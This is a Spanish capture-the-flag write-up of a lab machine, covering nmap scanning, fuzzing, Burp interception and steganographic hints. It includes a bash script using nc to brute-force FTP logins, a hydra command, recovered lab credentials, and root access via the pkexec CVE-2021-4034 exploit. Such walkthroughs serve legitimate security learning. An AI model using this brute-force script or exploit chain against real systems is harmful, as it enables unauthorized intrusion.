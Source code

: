 Haremos el reconocimiento con nmap:
![[Mis apuntes/ANEXOS/Pasted image 20230622202314.png]]
Empezamos analizando el puerto 80 y nos encontramos con una página de apache por defecto:
![[Mis apuntes/ANEXOS/Pasted image 20230622202401.png]]
Hacemos fuzzing y nos encontramos con distintos directorios y nos encuentra assets:
![[Mis apuntes/ANEXOS/Pasted image 20230622202520.png]]
Y tenemos estos archivos:
![[Mis apuntes/ANEXOS/Pasted image 20230622202539.png]]
Si entramos dentro del style.css nos encontramos con que hay un link dentro:
![[Mis apuntes/ANEXOS/Pasted image 20230622202651.png]]
Y nos dice que tenemos que apagar el javascript:
![[Mis apuntes/ANEXOS/Pasted image 20230622202719.png]]
Por tanto procedemos a desactivar el javascript dentro de nuestro navegador; y eso lo hacemos poniendo about:config en la url:
![[Mis apuntes/ANEXOS/Pasted image 20230622202856.png]]
Lo buscamos en el navegador:
![[Mis apuntes/ANEXOS/Pasted image 20230622202938.png]]
Y en la parte de la derecha podemos desactivarlo:
![[Mis apuntes/ANEXOS/Pasted image 20230622202959.png]]
Por tanto ahora volvemos a intentarlo y ya nos carga una web:
![[Mis apuntes/ANEXOS/Pasted image 20230622203027.png]]
Y ahora podemos intentar interceptar esta petición con burpsuite para ver cómo se tramita por detrás, pero con el directorio /sup3r_s3cret_fl4g/:
Y vemos que en burpsuite se nos muestra un directorio oculto:
![[Mis apuntes/ANEXOS/Pasted image 20230622203337.png]]
Si buscamos por este directorio, nos encontramos con una imagen:
![[Mis apuntes/ANEXOS/Pasted image 20230622203408.png]]
Nos bajamos la imagen para analizarla con un wget:
```bash
wget http://10.10.175.24/WExYY2Cv-qU/Hot_Babe.png
```
Y lo leemos en binario con el comando strings y nos encontramos con que en el interior nos dicen quién es el usuario por FTP, que sería ftpuser y una de las siguientes contraseñas:
![[Mis apuntes/ANEXOS/Pasted image 20230622203611.png]]
Vamos filtrar las contraseñas primero mostrando las últimas 150 líneas y a continuación con nano quitamos manualmente las que correspondan para dejar solo las passwords:
![[Mis apuntes/ANEXOS/Pasted image 20230622204425.png]]
Y ahora con hydra hacemos el ataque o con un script de bash:
```bash
#!/bin/bash

ftp_server="10.10.175.24"
ftp_user="ftpuser"
password_file="imagen"
logfile="resultados.log"
ftp_port=21

passwords=$(cat "$password_file")

for password in $passwords; do
  echo "Intentando contraseña: $password"
  output=$(echo -e "USER $ftp_user\r\nPASS $password\r\nQUIT\r\n" | nc -w 2 "$ftp_server" "$ftp_port")

  if echo "$output" | grep -q "230"; then
    echo "Contraseña correcta: $password"
    echo "Contraseña correcta: $password" >> "$logfile"
    exit 0
  fi
done

echo "No se encontró una contraseña válida"
echo "No se encontró una contraseña válida" >> "$logfile"
exit 1
```
Aquí entendemos cómo funciona el comando y por qué se hace un grep de 230, donde se entiende que ha sido exitoso:
![[Mis apuntes/ANEXOS/Pasted image 20230622210519.png]]
E irá comprobando uno a uno, pero va a ir lento:
![[Mis apuntes/ANEXOS/Pasted image 20230622205053.png]]
Si hacemos esta misma comprobación con hydra, va a ir más rápido y podemos encontrarla fácilmente y nos la encontró:
```bash
hydra -l ftpuser -P imagen ftp://10.10.175.24
```
Y vemos que la contraseña es 5iez1wGXKfPKQ
![[Mis apuntes/ANEXOS/Pasted image 20230622205238.png]]
Y nos funciona donde vemos también un archivo con credenciales:
![[Mis apuntes/ANEXOS/Pasted image 20230624102354.png]]
Y si vemos el contenido de este fichero vemos que viene encriptado en un lenguaje que según chatgpt, se llama brainfuck:
![[Mis apuntes/ANEXOS/Pasted image 20230624102556.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230624102607.png]]
Vamos a buscar por internet alguna web para desencriptarlo y vemos que podemos obtener las credenciales de un usuario llamado Eli:
![[Mis apuntes/ANEXOS/Pasted image 20230624102646.png]]
```sql
eli:DSpDiM1wAEwid
```
Y ahora si entramos por ssh ya estramos dentro correctamente:
![[Mis apuntes/ANEXOS/Pasted image 20230624102754.png]]
Vamos a buscar la flag con el comando find, y vemos que está dentro del directorio del usuario gwendoline, pero no tenemos permisos para leerla:
![[Mis apuntes/ANEXOS/Pasted image 20230624102936.png]]

Si hacemos una búsqueda de binarios, vemos que tenemos un binario de pkexec, que quizá tenga una versión vulnerable:
![[Mis apuntes/ANEXOS/Pasted image 20230624103813.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230624103837.png]]
Por tanto vamos a buscar un exploit que pueda escalar privilegios en esta versión, donde vemos que sí:
```bash
https://github.com/mebeim/CVE-2021-4034
```
![[Mis apuntes/ANEXOS/Pasted image 20230624103908.png]]
Seguimos las instrucciones para explotarlo, nos compartimos el exploit y ya somos root:
![[Mis apuntes/ANEXOS/Pasted image 20230624103939.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230624103955.png]]
